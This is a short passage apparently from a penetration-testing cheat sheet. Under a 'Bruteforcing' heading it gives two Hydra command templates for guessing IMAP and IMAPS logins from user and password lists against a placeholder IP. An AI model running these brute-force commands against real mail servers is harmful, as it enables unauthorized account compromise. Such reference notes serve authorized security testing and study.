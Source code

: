## Bruteforcing
### Hydra
```
hydra -L UserList -P PassList imap IP
```
### Hydra ssl
```
hydra -L UserList -P PassList imaps IP
```
